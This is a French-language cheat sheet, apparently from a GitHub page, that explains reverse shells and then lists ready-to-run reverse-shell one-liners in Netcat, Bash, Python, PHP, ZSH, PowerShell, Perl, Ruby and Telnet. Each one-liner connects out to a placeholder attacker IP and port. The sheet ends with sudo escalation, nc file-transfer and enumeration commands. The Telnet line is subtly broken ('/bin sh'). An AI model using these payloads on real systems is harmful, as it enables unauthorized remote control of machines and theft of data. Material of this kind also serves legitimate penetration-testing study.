 Qu'est-ce qu'un shell inversé ?

Un shell inversé est un type de shell dans lequel la machine cible initie une connexion vers la machine de l'attaquant, permettant ainsi à l'attaquant d'exécuter des commandes à distance sur la machine cible. Les shells inversés sont couramment utilisés dans les tests de pénétration et d'autres tâches liées à la sécurité, car ils permettent à un attaquant d'obtenir un accès à distance à un système sans nécessiter d'interaction de l'utilisateur ou de configuration réseau.

Pour établir un shell inversé, l'attaquant crée généralement une charge utile de shell, qui est un petit programme ou script conçu pour établir une connexion vers la machine de l'attaquant. Cette charge utile est ensuite téléchargée sur la machine cible, soit par le biais d'une vulnérabilité, soit en trompant l'utilisateur pour qu'il l'exécute. Une fois la charge utile exécutée, elle établit une connexion vers la machine de l'attaquant, créant une session de shell qui peut être utilisée pour exécuter des commandes sur la machine cible.

Comment fonctionne un shell inversé ?

Un shell inversé fonctionne en établissant une connexion entre la machine cible et la machine de l'attaquant. Cette connexion est généralement initiée par la machine cible, qui envoie une requête à la machine de l'attaquant pour établir une connexion. Une fois la connexion établie, la machine de l'attaquant agit comme un écouteur, attendant les commandes envoyées par l'attaquant.

Pour créer un shell inversé, l'attaquant doit d'abord créer une charge utile de shell conçue pour se connecter à la machine de l'attaquant. Cela peut être fait en utilisant une variété d'outils et de langages de programmation, tels que Netcat, Python ou Metasploit. Une fois la charge utile créée, elle est généralement téléchargée sur la machine cible en utilisant une vulnérabilité ou des tactiques d'ingénierie sociale.

Une fois la charge utile exécutée sur la machine cible, elle établit une connexion vers la machine de l'attaquant. Cette connexion peut être chiffrée pour éviter la détection et peut utiliser divers protocoles, tels que TCP, UDP ou HTTP. Une fois la connexion établie, l'attaquant peut utiliser la session de shell pour exécuter des commandes sur la machine cible, accéder aux fichiers et aux données, et même escalader les privilèges si nécessaire.

Pourquoi les shells inversés sont-ils utilisés ?

Les shells inversés sont couramment utilisés dans les tests de pénétration et d'autres tâches liées à la sécurité car ils fournissent un moyen d'obtenir un accès à distance à un système sans nécessiter d'interaction de l'utilisateur ou de configuration réseau. Les shells inversés peuvent être utilisés pour tester la sécurité d'un système, identifier des vulnérabilités et effectuer divers types d'attaques, telles que le vol de données, la modification de fichiers ou l'exécution de logiciels malveillants.

Les shells inversés sont également couramment utilisés dans les activités post-exploitation, car ils permettent à un attaquant de maintenir l'accès à un système même si la vulnérabilité ou l'exploit initial est corrigé. En établissant un shell inversé sur un système compromis, un attaquant peut continuer à surveiller le système, exfiltrer des données, ou même lancer des attaques supplémentaires sur d'autres systèmes au sein du réseau.


LES DIFFERENTS TYPES DE REVERSES
--------------------------------

Netcat
------
nc -e /bin/sh <attacker IP> <attacker port>

Bash
-----
bash -i >& /dev/tcp/<attacker IP>/<attacker port> 0>&1

Python
-------
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker IP>",<attacker port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

PHP
----
php -r '$sock=fsockopen("<attacker IP>",<attacker port>);exec("/bin/sh -i <&3 >&3 2>&3");'

ZSH
----
zsh -c 'zmodload zsh/net/tcp && ztcp <attacker IP> <attacker port> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'

Powershell
----------
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker IP>',<attacker port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Perl
-----
perl -e 'use Socket;$i="$ENV{<attacker IP>}";$p=$ENV{<attacker port>};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Ruby
----
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["<attacker IP>"],ENV["<attacker port>"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

Telnet
------
TF=$(mktemp -u); mkfifo $TF && telnet <attacker IP> <attacker port> 0<$TF | /bin sh 1>$TF



	Basic Commands

    pwd: Print current working directory.
    ls: List contents of current directory.
    cd: Change current directory.
    cat: Display contents of a file.
    rm: Remove a file or directory.
    mkdir: Create a new directory.
    cp: Copy a file or directory.
    mv: Move a file or directory.


   Privilege Escalation

    sudo -l: List available sudo commands for the current user.
    sudo <command>: Run a command with elevated privileges.
    su: Switch to the root user.
    sudo su: Switch to the root user with elevated privileges.


    File Transfer

    wget <file URL>: Download a file from the internet.
    curl <file URL>: Download a file from the internet.
    nc -l <local port> > <file>: Receive a file over the network using netcat.
    nc <target IP> <target port> < <file>: Send a file over the network using netcat.


    Network Enumeration

    ifconfig: Display network interface information.
    netstat -tulpn: List active network connections.
    arp -a: Display ARP table.
    ping <target IP>: Test network connectivity to a target.
    nmap: Scan a network for open ports and services.
